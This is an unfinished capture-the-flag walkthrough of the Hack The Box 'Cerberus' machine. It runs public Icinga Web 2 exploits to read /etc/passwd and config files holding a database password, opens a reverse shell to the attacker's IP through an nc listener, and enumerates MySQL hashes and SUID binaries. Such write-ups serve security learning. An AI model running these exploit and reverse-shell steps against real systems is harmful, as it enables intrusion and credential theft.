


- Machine : https://app.hackthebox.com/machines/Cerberus
- Reference : https://0xdf.gitlab.io/2023/07/29/htb-cerberus.html
- Solved : 2024.00.00. (Thu) (Takes 0days)

## Summary
---


### Key Techniques:


---

# Reconnaissance

### Port Scanning

```bash
┌──(kali㉿kali)-[~/htb]
└─$ ./port-scan.sh 10.10.11.205
Performing quick port scan on 10.10.11.205...
Found open ports: 8080,64343
Performing detailed scan on 10.10.11.205...
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-01-13 01:47 EST
Nmap scan report for 10.10.11.205
Host is up (0.12s latency).

PORT      STATE SERVICE VERSION
8080/tcp  open  http    Apache httpd 2.4.52 ((Ubuntu))
|_http-open-proxy: Proxy might be redirecting requests
|_http-title: Did not follow redirect to http://icinga.cerberus.local:8080/icingaweb2
|_http-server-header: Apache/2.4.52 (Ubuntu)
64343/tcp open  msrpc   Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 61.74 seconds
```

Unlike other AD machines, it has only 2 ports open : http(8080), rpc(64343)
- domain name is `cerberus.local`, and `icinga.cerberus.local` as well.

### http(8080)


The main page is redirected to "icinga login" page.
The version of the application is "Icinga Web 2".

```bash
┌──(kali㉿kali)-[~/htb]
└─$ nikto -h http://cerberus.local:8080
- Nikto v2.5.0
---------------------------------------------------------------------------
+ Target IP:          10.10.11.205
+ Target Hostname:    cerberus.local
+ Target Port:        8080
+ Start Time:         2025-01-13 02:29:12 (GMT-5)
---------------------------------------------------------------------------
+ Server: Apache/2.4.52 (Ubuntu)
+ /: The anti-clickjacking X-Frame-Options header is not present. See: https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/X-Frame-Options
+ /: The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type. See: https://www.netsparker.com/web-vulnerability-scanner/vulnerabilities/missing-content-type-header/
+ Root page / redirects to: http://icinga.cerberus.local:8080/icingaweb2
+ No CGI Directories found (use '-C all' to force check all possible dirs)
+ Apache/2.4.52 appears to be outdated (current is at least Apache/2.4.54). Apache 2.2.34 is the EOL for the 2.x branch.
+ 7963 requests: 0 error(s) and 3 item(s) reported on remote host
+ End Time:           2025-01-13 02:47:45 (GMT-5) (1113 seconds)
---------------------------------------------------------------------------
+ 1 host(s) tested


┌──(kali㉿kali)-[~/htb]
└─$ gobuster dir -u http://cerberus.local:8080 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt 
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://cerberus.local:8080
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/server-status        (Status: 403) [Size: 281]
Progress: 220560 / 220561 (100.00%)
===============================================================
Finished
===============================================================
```

Both `nikto` and `gobuster` don't returns useful things.

```bash
┌──(kali㉿kali)-[~/htb]
└─$ searchsploit icinga
--------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                       |  Path
--------------------------------------------------------------------- ---------------------------------
Icinga - cgi/config.c process_cgivars Function Off-by-One Read Remot | cgi/dos/38882.txt
Icinga Web 2.10 - Arbitrary File Disclosure                          | php/webapps/51329.py
Icinga Web 2.10 - Authenticated Remote Code Execution                | php/webapps/51586.py
--------------------------------------------------------------------- ---------------------------------
```

I found several exploits from `searchsploit`.
I think `51586.py` is not my choice for now since we don't have any valid credentials.
Instead, let's try "File Disclosure" exploit.


# Shell as `www-data`
### File Disclosure (CVE-2022-24716)

```bash
┌──(kali㉿kali)-[~/htb]
└─$ python 51329.py http://icinga.cerberus.local:8080/icingaweb2 /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
systemd-network:x:101:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:102:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:104::/nonexistent:/usr/sbin/nologin
systemd-timesync:x:104:105:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
pollinate:x:105:1::/var/cache/pollinate:/bin/false
usbmux:x:107:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
matthew:x:1000:1000:matthew:/home/matthew:/bin/bash
ntp:x:108:113::/nonexistent:/usr/sbin/nologin
sssd:x:109:115:SSSD system user,,,:/var/lib/sss:/usr/sbin/nologin
nagios:x:110:118::/var/lib/nagios:/usr/sbin/nologin
redis:x:111:119::/var/lib/redis:/usr/sbin/nologin
mysql:x:112:120:MySQL Server,,,:/nonexistent:/bin/false
icingadb:x:999:999::/etc/icingadb:/sbin/nologin


┌──(kali㉿kali)-[~/htb]
└─$ python 51329.py http://icinga.cerberus.local:8080/icingaweb2 /proc/self/status
Name:   php-fpm7.4
Umask:  0022
State:  R (running)
Tgid:   964
Ngid:   0
Pid:    964
PPid:   625
TracerPid:      0
Uid:    33      33      33      33
Gid:    33      33      33      33
```

Given the `uid` from `/proc/self/status`, I think I have a permission of `www-data` to read files.
Since I don't have any clue for now, let's investigate the repository and project site.

git repo : https://github.com/Icinga/icingaweb2
official site : https://icinga.com/docs/icinga-web/latest/

On its official site, I found some useful files on "Configuration" tab.



It's giving me a direct hint of the path : `/etc/icingaweb2`
Let's read configuration files listed here.

```bash
┌──(kali㉿kali)-[~/htb]
└─$ python 51329.py http://icinga.cerberus.local:8080/icingaweb2 /etc/icingaweb2/config.ini
[global]
show_stacktraces = "1"
show_application_state_messages = "1"
config_backend = "db"
config_resource = "icingaweb2"
module_path = "/usr/share/icingaweb2/modules/"

[logging]
log = "syslog"
level = "ERROR"
application = "icingaweb2"
facility = "user"

[themes]

[authentication]


┌──(kali㉿kali)-[~/htb]
└─$ python 51329.py http://icinga.cerberus.local:8080/icingaweb2 /etc/icingaweb2/resources.ini
[icingaweb2]
type = "db"
db = "mysql"
host = "localhost"
dbname = "icingaweb2"
username = "matthew"
password = "IcingaWebPassword2023"
use_ssl = "0"


┌──(kali㉿kali)-[~/htb]
└─$ python 51329.py http://icinga.cerberus.local:8080/icingaweb2 /etc/icingaweb2/roles.ini    
[Administrators]
users = "matthew"
permissions = "*"
groups = "Administrators"
unrestricted = "1"


┌──(kali㉿kali)-[~/htb]
└─$ python 51329.py http://icinga.cerberus.local:8080/icingaweb2 /etc/icingaweb2/authentication.ini
[icingaweb2]
backend = "db"
resource = "icingaweb2"
```

Bingo! I can find dbname and valid credential!
- dbname : `icingaweb2`
- credential : `matthew` : `IcingaWebPassword2023`

Let's try this credential on login page.


The credential worked, and I got logged in!



### Authenticated RCE (CVE-2022-24715)

Given the credential for `matthew`, I can try "Authenticated RCE exploit" this time.

```python
def login(url,user,password):
    try:
        login_url = url + "/icingaweb2/authentication/login"
        session = requests.Session()
        r = session.get(login_url)
        print(r)
        print(re.findall(r'name="CSRFToken" value="([^"]*)"', r.text))
        csrf_regex = re.findall(r'name="CSRFToken" value="([^"]*)"',r.text)[0]
        data_post = {"username":user,
                    "password":password,
                    "CSRFToken":csrf_regex,
                    "formUID":"form_login",
                    "btn_submit":"Login"
                    }
```

I found out that it combines URL with `/icingaweb2/~~~`, so I set the argument url without `/icingaweb2` part : `http://icinga.cerberus.local:8080`

```bash
┌──(kali㉿kali)-[~/htb]
└─$ python 51586.py -u http://icinga.cerberus.local:8080 -U matthew -P IcingaWebPassword2023 -i 10.10.14.15 -p 9000 
<Response [200]>
['656896936|9577729d721b5c787e5b0b506a86e986bed38984d5affa8127e6b777c0a1c8e9']
[*]Session successfully.
[*]File uploaded successfully.
[*]Eliminating evidence
```

Meanwhile, I opened a listener and waited for the conneciton.

```bash
┌──(kali㉿kali)-[~/htb]
└─$ nc -nlvp 9000                      
listening on [any] 9000 ...
connect to [10.10.14.15] from (UNKNOWN) [10.10.11.205] 49874
bash: cannot set terminal process group (625): Inappropriate ioctl for device
bash: no job control in this shell
www-data@icinga:/usr/share/icingaweb2/public$ whoami
\whoami
www-data
www-data@icinga:/usr/share/icingaweb2/public$ id
\id
uid=33(www-data) gid=33(www-data) groups=33(www-data),121(icingaweb2)
```

I got a shell of `www-data`!


# Shell as `???`

### Enumeration

I observed that the system is linux-based, which is weird since I saw that this one is Windows Active Directory.

```bash
www-data@icinga:/$ uname -a
uname -a
Linux icinga 5.15.0-43-generic #46-Ubuntu SMP Tue Jul 12 10:30:17 UTC 2022 x86_64 x86_64 x86_64 GNU/Linux
```

```bash
www-data@icinga:/$ cat /etc/hosts
cat /etc/hosts
127.0.0.1 iceinga.cerberus.local iceinga
127.0.1.1 localhost
172.16.22.1 DC.cerberus.local DC cerberus.local

# The following lines are desirable for IPv6 capable hosts
::1     ip6-localhost ip6-loopback
fe00::0 ip6-localnet
ff00::0 ip6-mcastprefix
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters


www-data@icinga:/$ hostname -I
hostname -I
172.16.22.2
```

Based on `/etc/host` and IP address, I think that there is another machine probably Active Directory on 172.16.22.1

```bash
www-data@icinga:/$ su matthew
su matthew
Password: IcingaWebPassword2023
su: Authentication failure
```

I tried to switch user to `matthew` with obtained credential, but it didn't work.

Since we observed that there's a database, let's check if mysql is running.

```bash
www-data@icinga:/usr/share/icingaweb2/public$ ss -nltp
ss -nltp
State  Recv-Q Send-Q Local Address:Port Peer Address:PortProcess
LISTEN 0      80         127.0.0.1:3306      0.0.0.0:*          
LISTEN 0      511        127.0.0.1:6379      0.0.0.0:*          
LISTEN 0      4096   127.0.0.53%lo:53        0.0.0.0:*          
LISTEN 0      511            [::1]:6379         [::]:*          
LISTEN 0      511                *:80              *:*          
```

Given the open 3306 port, I guessed that mysql is running.
Let's try checking mysql service.

Since the shell is not working with mysql, I ran it with `-e` option.

```bash
www-data@icinga:/$ mysql -u matthew -pIcingaWebPassword2023 -e "SHOW DATABASES;"
<atthew -pIcingaWebPassword2023 -e "SHOW DATABASES;"
Database
icingaweb2
information_schema


www-data@icinga:/$ mysql -u matthew -pIcingaWebPassword2023 -e "use icingaweb2;show tables;"
<ngaWebPassword2023 -e "use icingaweb2;show tables;"
Tables_in_icingaweb2
icingaweb_group
icingaweb_group_membership
icingaweb_rememberme
icingaweb_user
icingaweb_user_preference


www-data@icinga:/$ mysql -u matthew -pIcingaWebPassword2023 -e "use icingaweb2;select * from icingaweb_user;"
<3 -e "use icingaweb2;select * from icingaweb_user;"
name    active  password_hash   ctime   mtime
matthew 1       $2y$10$XL4/y9uLpQqGA5lB0PTxreAnounQo.OR39REJIZ8NB/D6Xn4KQpVu       2023-01-26 15:20:37     NULL
```

Nothing useful, the only hash is just for `matthew` that I already know the plain password.

```bash
www-data@icinga:/tmp$ find / -perm -4000 2>/dev/null
find / -perm -4000 2>/dev/null
/usr/sbin/ccreds_chkpwd
/usr/bin/mount
/usr/bin/sudo
/usr/bin/firejail
/usr/bin/chfn
/usr/bin/fusermount3
/usr/bin/newgrp
/usr/bin/passwd
/usr/bin/gpasswd
/usr/bin/ksu
/usr/bin/pkexec
/usr/bin/chsh
/usr/bin/su
/usr/bin/umount
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/openssh/ssh-keysign
/usr/libexec/polkit-agent-helper-1


www-data@icinga:/usr/share/icingaweb2/public$ firejail --version
firejail --version
firejail version 0.9.68rc1

Compile time support:
        - always force nonewprivs support is disabled
        - AppArmor support is enabled
        - AppImage support is enabled
        - chroot support is enabled
        - D-BUS proxy support is enabled
        - file transfer support is enabled
        - firetunnel support is enabled
        - networking support is enabled
        - output logging is enabled
        - overlayfs support is disabled
        - private-home support is enabled
        - private-cache and tmpfs as user enabled
        - SELinux support is disabled
        - user namespace support is enabled
        - X11 sandboxing support is enabled
```

I checked SUID binaries, and found `firejail 0.9.68rc1` which is not normal.
Based on research, `firejail` is a sandboxing application to isolate environment.

I googled for a while and found the following;
https://www.openwall.com/lists/oss-security/2022/06/08/10

> Stop here.. The exploit is not working.. for now.
> Let's stop here, and visit it later.